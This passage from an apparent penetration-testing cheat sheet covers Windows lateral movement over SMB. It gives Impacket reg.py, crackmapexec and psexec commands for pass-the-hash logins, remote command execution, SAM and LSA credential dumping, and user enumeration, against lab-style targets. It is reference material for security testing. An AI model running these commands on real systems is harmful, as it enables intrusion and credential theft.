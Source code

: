You may be able to read the registry using some discovered credentials. Impacket reg.py allows you to try:

sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKCU -s
sudo reg.py domain.local/USERNAME@MACHINE.htb -hashes 1a3487d42adaa12332bdb34a876cb7e6:1a3487d42adaa12332bdb34a876cb7e6 query -keyName HKLM -s

Authenticate using Kerberos

You can authenticate to kerberos using the tools smbclient and rpcclient:

smbclient --kerberos //ws01win10.domain.com/C$
rpcclient -k ws01win10.domain.com

Execute
crackmapexec

crackmapexec can execute commands abusing any of mmcexec, smbexec, atexec, wmiexec being wmiexec the default method. You can indicate which option you prefer to use with the parameter --exec-method:

apt-get install crackmapexec
​
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -X '$PSVersionTable' #Execute Powershell
crackmapexec smb 192.168.10.11 -u Administrator -p 'P@ssw0rd' -x whoami #Excute cmd
crackmapexec smb 192.168.10.11 -u Administrator -H <NTHASH> -x whoami #Pass-the-Hash
# Using --exec-method {mmcexec,smbexec,atexec,wmiexec}
​
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sam #Dump SAM
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --lsa #Dump LSASS in memmory hashes
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --sessions #Get sessions (
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --loggedon-users #Get logged-on users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --disks #Enumerate the disks
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --users #Enumerate users
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --groups # Enumerate groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --local-groups # Enumerate local groups
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --pass-pol #Get password policy
crackmapexec smb <IP> -d <DOMAIN> -u Administrator -p 'password' --rid-brute #RID brute

​psexec/smbexec​

Both options will create a new service (using \pipe\svcctl via SMB) in the victim machine and use it to execute something (psexec will upload an executable file to ADMIN$ share and smbexec will point to cmd.exe/powershell.exe and put in the arguments the payload --file-less technique--).
More info about psexec and smbexec.
In kali it is located on /usr/share/doc/python3-impacket/examples/

#If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 #Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
